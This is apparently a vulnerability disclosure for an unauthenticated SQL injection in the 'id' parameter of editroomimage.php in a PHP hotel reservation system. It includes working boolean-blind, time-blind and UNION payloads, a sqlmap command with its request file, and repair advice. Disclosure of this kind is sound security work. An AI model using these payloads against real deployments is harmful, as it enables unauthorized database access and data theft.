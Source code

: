 # Online Hotel Reservation System In PHP With Source Code editroomimage.php  sql injection

# NAME OF AFFECTED PRODUCT(S)

- Online Hotel Reservation System In PHP With Source Code

## Vendor Homepage

- [Online Hotel Reservation System In PHP With Source Code - Source Code & Projects](https://code-projects.org/online-hotel-reservation-system-in-php-with-source-code/)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- 郑翔（zhengxiang），罗熙(luoxi)
## organization
- guangzhou university
  
## VERSION(S)

- V1.0

## Software Link

- https://download.code-projects.org/details/f2af5165-f165-4d1c-9648-394dc5119f9d

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'editroomimage.php' file of the 'Online Hotel Reservation System In PHP With Source Code' project. The reason for this issue is that attackers inject malicious code from the parameter "id" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Online Hotel Reservation System In PHP With Source Code", discovered a critical SQL injection vulnerability in the "editroomimage.php" file. This vulnerability stems from insufficient user input validation of the 'id' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- time-based blind
- boolean-based blind
- UNION query

## Vulnerability location:

- 'id' parameter

## Payload:

```
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: http://192.168.248.130:8883/admin/editroomimage.php?id=1' AND 4674=(SELECT (CASE WHEN (4674=4674) THEN 4674 ELSE (SELECT 1176 UNION SELECT 2912) END))-- -
    Vector: AND [RANDNUM]=(SELECT (CASE WHEN ([INFERENCE]) THEN [RANDNUM] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))[GENERIC_SQL_COMMENT]

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://192.168.248.130:8883/admin/editroomimage.php?id=1' AND (SELECT 9944 FROM (SELECT(SLEEP(5)))phya)-- BNhp
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: http://192.168.248.130:8883/admin/editroomimage.php?id=1' UNION ALL SELECT NULL,CONCAT(0x71787a6a71,0x5451424e4d574f75776a52667977797163486b506d6d6442434a6765726266464a4241594b655148,0x71626b7871),NULL,NULL,NULL,NULL-- -
    Vector:  UNION ALL SELECT NULL,[QUERY],NULL,NULL,NULL,NULL-- -
```

![image-20250806143751501](assets/image-20250806143751501.png)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python3 sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
GET /admin/editroomimage.php?id=1* HTTP/1.1
Host: 192.168.248.130:8883
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: 
Connection: keep-alive
```

# Attack results

![image-20250806143827328](assets/image-20250806143827328.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.


